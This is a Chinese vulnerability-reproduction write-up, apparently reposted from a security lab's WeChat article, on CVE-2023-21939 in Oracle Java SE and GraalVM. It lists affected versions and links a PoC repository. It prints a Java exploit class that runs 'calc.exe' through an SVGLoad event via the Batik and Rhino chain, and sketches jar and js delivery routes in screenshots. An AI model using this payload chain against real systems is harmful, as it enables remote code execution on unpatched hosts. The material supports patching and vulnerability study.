# Oracle Java SE 代码执行漏洞 (CVE-2023-21939)【利用难度大】

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：列出多个JDK/GraalVM版本；HTML OBJECT/SVG处理、Apache XML Graphics及Rhino依赖；用户交互/应用入口未明确
- 证据范围：给出SVG事件Java类，主要触发流程只在截图；不是数据库漏洞

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0数据库分类错误，应归Java运行时/客户端组件及其具体应用场景
- '利用难度大'不是可检验条件，补依赖版本、攻击输入入口和用户动作
- 代码只是payload类，缺被利用调用链文本/运行配置
- 视频链接javascript:;无实际媒体；广告和重复分隔图多
- 官方影响描述与实际Batik/Rhino链关系需独立核验

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/kc-j9BF2suJtJSQ-PJxJOQ)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**  

Oracle Java SE 和 Oracle GraalVM 都是美国甲骨文（Oracle）公司的产品。Oracle Java SE 是一款用于开发和部署桌面、服务器以及嵌入设备和实时环境中的 Java 应用程序。Oracle GraalVM 是一套使用 Java 语言编写的即时编译器。该产品支持多种编程语言和执行模式。

Oracle Java SE 8u361、8u361-perf、11.0.18、17.0.6、20 版本, Oracle GraalVM Enterprise 20.3.9、21.3.5 和 22.3.1 版本存在安全漏洞，攻击者利用该漏洞可以对 Oracle Java SE、Oracle GraalVM Enterprise Edition 可访问数据进行未经授权的更新、插入或删除访问。


  

**0x02 影响版本**  

Oracle Java SE: 8u361, 8u361-perf, 11.0.18, 17.0.6, 20；

Oracle GraalVM Enterprise Edition: 20.3.9, 21.3.5, 22.3.1




  

**0x03 漏洞复现**  

  

1. 下载漏洞源码

```
https://github.com/Y4Sec-Team/CVE-2023-21939

```

### JDK + Apache XML Graphics + Mozilla Rhino



2. 漏洞复现

**EXP  
**

```python
import org.w3c.dom.events.Event;
import org.w3c.dom.events.EventListener;
import org.w3c.dom.svg.EventListenerInitializer;
import org.w3c.dom.svg.SVGDocument;
import org.w3c.dom.svg.SVGSVGElement;
public class Exploit implements EventListenerInitializer {
    public Exploit() {
    }
    public void initializeEventListeners(SVGDocument document) {
        SVGSVGElement root = document.getRootElement();
        EventListener listener = new EventListener() {
            public void handleEvent(Event event) {
                try {
                    Runtime.getRuntime().exec("calc.exe");
                } catch (Exception e) {
                }
            }
        };
        root.addEventListener("SVGLoad", listener, false);
    }
}

```

两种利用方式

方式 1（jar RCE）

1. 启动 jar 服务



2. 通过 jar 方式加载 exp 进行命令执行



3. 执行过程中流量  



方式 2（js RCE）

1. 启动 xml 服务



2. 通过 js 方式加载 exp 进行命令执行



3. 执行过程中流量



简单分析

漏洞点：HTML 格式支持了 OBJECT 标签。



加载 org.apache.batik.swing.JSVGCanvas  



标签加载



加载类型为字符



开启 HTTP Server 写入恶意 XML (SVG) 后即可在读 Object 时 RCE。





视频演示

视频详情


  

**0x04 修复建议**  

  

目前厂商已发布升级安全版本

```
https://www.oracle.com/java/technologies/javase/8u371-relnotes.html
https://www.oracle.com/java/technologies/javase/11-0-19-relnotes.html
https://www.oracle.com/java/technologies/javase/17-0-7-relnotes.html
https://www.oracle.com/java/technologies/javase/20-0-1-relnotes.html
https://mp.weixin.qq.com/s/-Rdkv1WmYrjNWhZZK3pj6w

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
